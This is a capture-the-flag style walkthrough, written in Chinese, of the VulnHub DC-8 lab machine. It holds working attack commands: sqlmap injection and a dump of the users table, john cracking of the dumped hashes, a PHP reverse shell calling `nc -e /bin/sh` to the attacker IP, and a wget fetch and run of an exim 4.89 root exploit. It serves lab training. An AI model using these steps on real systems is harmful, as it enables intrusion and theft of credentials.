








# DC 8

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-8,367/

## 知识点

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.158
```


## 漏洞利用

在左侧链接发现注入点



```
sqlmap -u http://10.30.0.158/?nid=1 --dbs --batch
sqlmap -u http://10.30.0.158/?nid=1 -D d7db --tables --batch
sqlmap -u http://10.30.0.158/?nid=1 -D d7db -T users --dump --batch
```



得到 admin 和 john 用户的 hash 密码, 根据提示使用john来爆破

```bash
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
john pass.txt  # 默认用/usr/share/john/password.lst字典
```



爆出johb的密码，admin无法爆破

```
username : john
password : turtle
```

后台登陆地址：http://xxxxxx/user/login/

信息收集，在contact us发现能写入php的地方，尝试写入phpinfo



命令成功执行，尝试写入反弹shell一句话

```bash
<?php system("nc -e /bin/sh 10.30.0.81 4444")?>

nc -lvnp 4444 # kali
```

反弹成功

```bash
python -c "import pty;pty.spawn('/bin/bash')"
find / -perm -u=s 2>/dev/null
```




查看exim4
```bash
/usr/sbin/exim4 --version # 4.89
searchsploit exim 4.89
searchsploit -m 46996 #注意在kali上把文件改为unix格式

vi 46996.sh
:!set ff=unix

python -m SimpleHTTPServer  8080 # kali
cd /tmp # 靶机在tmp目录下进行下载接受，防止其他位子没有权限
wget http://10.30.0.81:8080/46996.sh # 靶机
chmod +x 46996.sh
./46996.sh -m netcat
whoami
```



## 参考链接
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/amgflh
- http://www.kxsy.work/2021/08/12/shen-tou-dc-8/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC8-WalkThrough.md